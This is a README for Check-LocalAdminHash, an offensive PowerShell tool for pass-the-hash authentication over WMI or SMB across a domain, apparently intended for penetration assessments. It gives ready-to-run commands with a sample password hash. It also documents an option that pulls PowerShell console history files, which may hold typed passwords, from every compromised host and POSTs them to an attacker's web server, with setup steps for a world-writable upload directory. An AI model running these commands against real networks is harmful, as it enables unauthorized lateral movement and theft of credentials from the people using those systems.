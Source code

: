 # Check-LocalAdminHash
Check-LocalAdminHash is a PowerShell tool that attempts to authenticate to multiple hosts over either WMI or SMB using a password hash to determine if the provided credential is a local administrator. It's useful if you obtain a password hash for a user and want to see where they are local admin on a network. It is essentially a Frankenstein of two of my favorite tools along with some of my own code. It utilizes Kevin Robertson's (@kevin_robertson) Invoke-TheHash project for the credential checking portion. Additionally, the script utilizes modules from PowerView by Will Schroeder (@harmj0y) and Matt Graeber (@mattifestation) to enumerate domain computers to find targets for testing admin access against. 

![alt text](http://www.dafthack.com/Check-LocalAdminHash-Example.jpg)

The reason this script even exists is because on an assessment I wanted to gather all the PowerShell console history files (PSReadline) from every system on the network. The PSReadline console history is essentially the PowerShell version of bash history. It can include so many interesting things that people type into their terminals including passwords. So, included in this script is an option to exfiltrate all the PSReadline files as well. There is a bit of setup for this. See the end of the Readme for setup.

## Examples


### Checking Local Admin Hash Against All Hosts Over WMI
This command will use the domain 'testdomain.local' to lookup all systems and then attempt to authenticate to each one using the user 'testdomain.local\PossibleAdminUser' and a password hash over WMI.
```PowerShell
Check-LocalAdminHash -Domain testdomain.local -UserDomain testdomain.local -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -AllSystems
```

### Exfiltrate All PSReadline Console History Files
This command will use the domain 'testdomain.local' to lookup all systems and then attempt to authenticate to each one using the user 'testdomain.local\PossibleAdminUser' and a password hash over WMI. It then attempts to locate PowerShell console history files (PSReadline) for each profile on every system and then POST's them to a web server. See the bottom of the Readme for server setup.

```PowerShell
Check-LocalAdminHash -Domain testdomain.local -UserDomain testdomain.local -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -AllSystems -ExfilPSReadline
```

### Using A CIDR Range
This command will use the provided CIDR range to generate a target list and then attempt to authenticate to each one using the local user 'PossibleAdminUser' and a password hash over WMI.
```PowerShell
Check-LocalAdminHash -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -CIDR 192.168.1.0/24
```


### Using Target List and SMB and Output to File
This command will use the provided targetlist and attempt to authenticate to each host using the local user 'PossibleAdminUser' and a password hash over SMB.
```PowerShell
Check-LocalAdminHash -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -TargetList C:\temp\targetlist.txt -Protocol SMB | Out-File -Encoding Ascii C:\temp\local-admin-systems.txt
```


### Single Target
This command attempts to perform a local authentication for the user Administrator against the system 192.168.0.16 over SMB.
```PowerShell
Check-LocalAdminHash -TargetSystem 192.168.0.16 -Username Administrator -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -Protocol SMB
```

### Check-LocalAdminHash Options
```
Username - The Username for attempting authentication.
PasswordHash - Password hash of the user.
TargetSystem - Single hostname or IP for authentication attempt.
TargetList - A list of hosts to scan one per line
AllSystems - A switch that when enabled utilizes PowerView modules to enumerate all domain systems. This list is then used to check local admin access.
Domain - This is the domain that PowerView will utilize for discovering systems.
UserDomain - This is the user's domain to authenticate to each system with. Don't use this flag if using a local cred instead of domain cred.
Protocol - This is the setting for whether to check the hash using WMI or SMB. Default is 'WMI' but set it to 'SMB' to check that instead.
CIDR - Specify a CIDR form network range such as 192.168.0.0/24
Threads - Defaults to 5 threads. (I've run into some odd issues setting threads more than 15 with some results not coming back.)
ExfilPSReadline - For each system where auth is successful it runs a PowerShell command to locate PSReadLine console history files (PowerShell command history) and then POSTS them to a web server. See the Readme for server setup. 
```

## PSReadline Exfiltration Setup
**This is your warning** that you are about to setup an Internet-facing server that will accept file uploads. Typically, this is a very bad thing to do. So definitely take precautions when doing this. I would recommend **locking down firewall rules** so that only the IP that will be uploading PSReadline files can hit the web server. Also, while we are on the topic of security, this will work just fine with an HTTPS connection so setup your domain and cert so that the PSReadline files are sent encrypted over the network. You have been warned...

  * Setup a server wherever you would like the files to be sent. This server must be reachable over HTTP/HTTPS from each system.

  * Copy the index.php script from this repo and put it in /index.php in the web root (/var/www/html) on your web server.

  * Make an uploads directory

  ``mkdir /var/www/html/uploads
``

  * Modify the permissions of this directory 

  ``chmod 0777 /var/www/html/uploads
``

  * Make sure php is installed

  ``apt-get install php
``

  * Restart Apache
  
  ``service apache2 restart
``

  * In the Check-LocalAdminHash.ps1 script itself scroll down to the "Gen-EncodedUploadScript" function and modify the "$Url" variable right under "$UnencodedCommand". Point it at your web server index.php page. I haven't figured out how to pass the UploadUrl variable into that section of the code that ends up getting encoded and run on target systems so hardcode it for now.

Now when you run Check-LocalAdminHash with the -ExfilPSReadline flag it should attempt to POST each PSReadline (if there are any) to your webserver.

![alt text](http://www.dafthack.com/powershell-history-results.jpg)

## Credits
Check-LocalAdminHash is pretty much a Frankenstein of two of my favorite tools, PowerView and Invoke-TheHash. 95% of the code is from those two tools. So the credit goes to Kevin Robertson (@kevin_robertson) for Invoke-TheHash, and credit goes to Will Schroeder (@harmj0y), Matt Graeber (@mattifestation) (and anyone else who worked on PowerView). Without those two tools this script wouldn't exist. Also shoutout to Steve Borosh (@424f424f) for help with the threading and just being an all around awesome dude.

Invoke-TheHash - https://github.com/Kevin-Robertson/Invoke-TheHash

PowerView - https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1
